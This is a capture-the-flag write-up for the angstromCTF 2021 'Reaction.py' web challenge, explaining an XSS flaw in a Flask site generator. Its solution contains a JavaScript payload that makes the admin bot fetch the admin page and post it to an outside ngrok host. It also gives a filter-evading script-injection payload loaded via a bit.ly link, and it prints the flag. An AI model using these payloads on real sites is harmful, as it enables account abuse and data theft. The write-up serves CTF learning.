

# Reaction.py - angstromCTF 2021

- Category: Web
- Points: 150
- Solves: 90
- Solved by: SM_SC2, drw0if, Iregon, raff01

## Description

Jason's created the newest advancement in web development, Reaction.py! A server-side component-based web framework. He created a few demo components that you can find on [his site](https://reactionpy.2021.chall.actf.co/login). If you make a cool enough webpage, you can submit them to the contest and win prizes! [Source](dist/server.py) [Admin bot source](dist/visit.js)

## Overview
We have a "site generator" with which we can add predefined components as logged-in users.


When we create a component, a POST request is sent to `/newcomp` and the specified component is added to the `/` page through the `add_component` function.

If we press `submit site to contest` button, our page is sent to `/contest` that checks the Google Captcha and open the page inside a `puppeteer` instance through `visit.js`

```python
@app.route("/contest", methods=["POST"])
@mustlogin
def contest_submission(user):
    captcha_response = request.form.get("g-recaptcha-response")
    if not captcha_response:
        return ("Please complete the CAPTCHA", 400)
    secretkey = captcha.get("secretkey")
    if secretkey:
        r = requests.post(
            "https://www.google.com/recaptcha/api/siteverify",
            data={"secret": secretkey, "response": captcha_response},
        ).json()
        if not r["success"]:
            return ("Invalid CAPTCHA", 400)
        subprocess.run(
            ["node", "visit.js", user["username"]],
            # stdout=subprocess.DEVNULL,
            # stderr=subprocess.DEVNULL,
            stdin=subprocess.DEVNULL,
        )
        return PAGE_TEMPLATE.replace(
            "$$BODY$$",
            """<p>The admin should have reviewed your submission. <a href="/">Back to homepage</a></p>""",
        )
```

We can't inject malicious code via username because it accepts only letters, digits and `_`

The site use an in-memory storage. Our data are stored inside `accounts[username]` and the HTML components inside `accounts[username]["bucket"]`.

There is a default "admin" user which has the flag.

```python
accounts = {
    "admin": {
        "username": "admin",
        "pw": admin_password,
        "bucket": [f"<p>{escape(flag)}</p>"],
        "mutex": Lock(),
    }
}
```

As we can see, there is a custom middleware that lets us impersonate whatever user we want. It only needs the `secret` cookie.

```python
def mustlogin(route):
    @wraps(route)
    def ret():
        if request.cookies.get("secret") == admin_password:
            fakeuser = request.args.get("fakeuser")
            if fakeuser:
                return route(user=accounts[fakeuser])
        if "username" not in session or session["username"] not in accounts:
            return redirect("/login", code=302)
        return route(user=accounts[session["username"]])

    return ret
```

The only interesting function is `add_component`.
It adds our components to bucket (max 2). Through the `name` parameter we can choose one of the following components:

### welcome

```python
if name == "welcome":
        if len(bucket) > 0:
            return (ERR, "Welcomes can only go at the start")
        bucket.append(
            """
            <form action="/newcomp" method="POST">
                <input type="text" name="name" placeholder="component name">
                <input type="text" name="cfg" placeholder="component config">
                <input type="submit" value="create component">
            </form>
            <form action="/reset" method="POST">
                <p>warning: resetting components gets rid of this form for some reason</p>
                <input type="submit" value="reset components">
            </form>
            <form action="/contest" method="POST">
                <div class="g-recaptcha" data-sitekey="{}"></div>
                <input type="submit" value="submit site to contest">
            </form>
            <p>Welcome <strong>{}</strong>!</p>
            """.format(
                captcha.get("sitekey"), escape(cfg)
            ).strip()
        )
```

### char_count

```python
elif name == "char_count":
        bucket.append(
            "<p>{}</p>".format(
                escape(
                    f"<strong>{len(cfg)}</strong> characters and <strong>{len(cfg.split())}</strong> words"
                )
            )
        )
```

### text

```python
elif name == "text":
        bucket.append("<p>{}</p>".format(escape(cfg)))
```

### freq

```python
elif name == "freq":
        counts = Counter(cfg)
        (char, freq) = max(counts.items(), key=lambda x: x[1])
        bucket.append(
            "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
                "".join(counts), char, freq
            )
        )
```

In the first three components, our input (`cfg`) is escaped via flask `escape`. In the last one, `cfg` is not, but duplicated characters are eliminated because of `Counter` function.

Looking at `visit.js` code we have the cookie we need. Unfortunately, it can't be stolen through javascript (`httpOnly: true`), neither through CSRF attack (`sameSite: "Strict", domain: 127.0.0.1:8080`).

## Solution

The site is vulnerable to XSS attack. We can't and we don't need to get the cookies. We just need that puppeteer, which has them, makes a request for us as admin and send the response to us. We used `ngrok` as HTTP bin.

```javascript
fetch('/?fakeuser=admin')
	.then(response => response.text())
  	.then(data =>{
		fetch('http://293fb56704d7.ngrok.io/', {
			method : 'post',
			body: data
	})
});
```

Due to the limitations of the `freq` component, we must load our script as an external resource. So we served it through a PHP server (maybe it can be a simple `js` file).

We want to inject

```html
<script src="https://293fb56704d7.ngrok.io"></script>
```

but we have to remove duplicates. So:
1. uppercase script
2. change `https://` to `//`
3. remove double quotes

```html
<SCRIPT src=//293fb56704d7.ngrok.io></script>
```

We can't use double slash, so we HTML encode `&#47;` the second one.

Our URL is too long. After a bit of research, the solution is `bit.ly` which lets us create custom paths and its domain has available characters.

We must close the script tag in order to be executed, so we have to use the second component and comment out everything between the two tags.
We used a single quote instead of comment :sweat_smile:

```html
<SCRIPT src=/&#47;bit.ly\2Q5ZXW1>' [content to comment out] '</SCRIPT>
```

exploit

```python
new_comp('freq', '<SCRIPT src=/&#47;bit.ly\\2Q5ZXW1>\'')
new_comp('freq', '\'</SCRIPT>')
```

Before doing this, we have to reset the page through a POST request to `/reset`. Run `py ./exploit.py`

Now, we have to:
1. open the `/` page through the browser and log in
2. open browser console and execute the following script to recreate the sending form and Google Captcha

```javascript
document.body.innerHTML += '<form action="/contest" method="POST"><div class="g-recaptcha" data-sitekey="6LfbKpgaAAAAAJBO6sFtDLzXUHeZBZaKtNxQB-yr"></div><input type="submit" value="submit site to contest"></form>'

let myScript = document.createElement("script");
myScript.setAttribute("src", "https://www.google.com/recaptcha/api.js");
document.body.appendChild(myScript);
```
3. press `submit site to contest`

And we have the flag to our HTTP bin



## Flag
```
actf{two_part_xss_is_double_the_parts_of_one_part_xss}
```